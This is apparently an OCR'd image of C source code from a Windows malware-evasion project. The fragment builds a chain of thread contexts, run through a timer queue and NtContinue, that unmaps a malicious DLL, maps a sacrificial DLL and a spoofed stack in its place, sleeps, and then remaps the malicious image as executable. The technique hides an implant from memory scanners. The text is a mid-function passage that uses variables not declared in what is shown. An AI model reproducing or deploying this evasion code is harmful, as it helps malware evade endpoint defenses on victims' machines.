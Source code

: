 ```c
        newStackMal = (PDWORD64)VirtualAlloc(NULL, mbi.RegionSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

        //copy the stack in the new memory location
        memcpy(newStack, mbi.BaseAddress, mbi.RegionSize);
        memcpy(newStackMal, mbi.BaseAddress, mbi.RegionSize);
        //finding the delta between the start of the region and RSP
        SIZE_T delta = (CtxThread->Rsp - (ULONG_PTR)mbi.BaseAddress);
       
        if (CtxThread == NULL || RopUnmapMal == NULL || RopMapSac == NULL || RopDelay == NULL || RopMapMal == NULL || RopUnmapSac == NULL || RopSetEvt == NULL) {
            return;
        }
        memcpy(RopUnmapMal, CtxThread, sizeof(CONTEXT));
        memcpy(RopMapSac, CtxThread, sizeof(CONTEXT));
        memcpy(RopDelay, CtxThread, sizeof(CONTEXT));
        memcpy(RopMapMal, CtxThread, sizeof(CONTEXT));
        memcpy(RopUnmapSac, CtxThread, sizeof(CONTEXT));
        memcpy(RopSetEvt, CtxThread, sizeof(CONTEXT));

        (*RopUnmapMal).Rsp -= 8;
        (*RopUnmapMal).Rip = (DWORD64)UnmapViewOfFile;
        (*RopUnmapMal).Rcx = (DWORD64)(ImageBaseDLL);
        
        //setting RSP to the new RSP
        (*RopMapSac).Rsp = (DWORD64)((PBYTE)newStack + delta);
        (*RopMapSac).Rsp -= 8;
        (*RopMapSac).Rip = (DWORD64)MapViewOfFileEx;
        (*RopMapSac).Rcx = (DWORD64)sacDllHandle;
        (*RopMapSac).Rdx = FILE_MAP_ALL_ACCESS;
        (*RopMapSac).R8 = (DWORD64)0x00;
        (*RopMapSac).R9 = (DWORD64)0x00;
        *((PDWORD64)((*RopMapSac).Rsp + 40)) = viewSize;
        *((PDWORD64)((*RopMapSac).Rsp + 48)) = (ULONGLONG)(ImageBaseDLL);

        
        (*RopDelay).Rsp -= 8;
        (*RopDelay).Rip = (DWORD64)WaitForSingleObject;
        (*RopDelay).Rcx = (DWORD64)((HANDLE)(LONG_PTR)-1);
        (*RopDelay).Rdx = 0x1388; 

        (*RopUnmapSac).Rsp -= 8;
        (*RopUnmapSac).Rip = (DWORD64)UnmapViewOfFile;
        (*RopUnmapSac).Rcx = (DWORD64)(ImageBaseDLL);

       
        (*RopMapMal).Rsp = (DWORD64)((PBYTE)newStackMal + delta);
        (*RopMapMal).Rsp -= 8;
        (*RopMapMal).Rip = (DWORD64)MapViewOfFileEx;
        (*RopMapMal).Rcx = (DWORD64)malDllHandle;
        (*RopMapMal).Rdx = FILE_MAP_ALL_ACCESS | FILE_MAP_EXECUTE;
        (*RopMapMal).R8 = (DWORD64)0x00;
        (*RopMapMal).R9 = (DWORD64)0x00;
        *(ULONG_PTR*)((*RopMapMal).Rsp + 40) = 0x00; 
        *(ULONG_PTR*)((*RopMapMal).Rsp + 48) = (ULONG_PTR)ImageBaseDLL;
        
        (*RopSetEvt).Rsp -= 8;
        (*RopSetEvt).Rip = (DWORD64)SetEvent;
        (*RopSetEvt).Rcx = (DWORD64)hEvent;

        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, RopUnmapMal, 100, 0, WT_EXECUTEINTIMERTHREAD);
```